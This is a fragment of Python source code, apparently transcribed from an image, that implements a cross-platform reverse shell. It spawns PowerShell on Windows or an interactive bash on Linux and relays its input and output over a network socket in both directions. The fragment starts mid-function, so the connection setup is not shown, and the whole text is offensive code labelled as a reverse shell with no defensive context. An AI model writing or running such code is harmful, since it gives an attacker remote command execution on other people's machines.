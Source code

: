```python
            # Platform-specific handling
            if "windows" in system:
                # Windows-specific reverse shell
                p = subprocess.Popen(["powershell.exe"], 
                                    stdin=subprocess.PIPE,
                                    stdout=subprocess.PIPE,
                                    stderr=subprocess.STDOUT,
                                    shell=True,
                                    text=True)
                
                # Communication handling thread functions
                def send_data():
                    while True:
                        data = p.stdout.readline()
                        if not data:
                            break
                        s.sendall(data.encode())
                
                def receive_data():
                    while True:
                        data = s.recv(1024).decode()
                        if not data:
                            break
                        p.stdin.write(data)
                        p.stdin.flush()
            
            else:
                # Linux/Unix reverse shell
                if hasattr(os, 'posix_spawn'):
                    # Modern method using posix_spawn
                    p = subprocess.Popen(["/bin/bash", "-i"], 
                                        stdin=subprocess.PIPE,
                                        stdout=subprocess.PIPE,
                                        stderr=subprocess.PIPE)
                else:
                    # Fallback method
                    p = subprocess.Popen(["/bin/bash", "-i"], 
                                        stdin=subprocess.PIPE,
                                        stdout=subprocess.PIPE,
                                        stderr=subprocess.PIPE,
                                        shell=True)
                
                # Communication handling thread functions
                def send_data():
                    while True:
                        # Combine stdout and stderr
                        data = p.stdout.read(1)
                        if not data:
                            stderr_data = p.stderr.read(1024)
                            if stderr_data:
                                s.sendall(stderr_data)
                            else:
                                break
                        else:
                            s.sendall(data)
                
                def receive_data():
                    while True:
                        data = s.recv(1024)
                        if not data:
                            break
                        p.stdin.write(data)
                        p.stdin.flush()
```
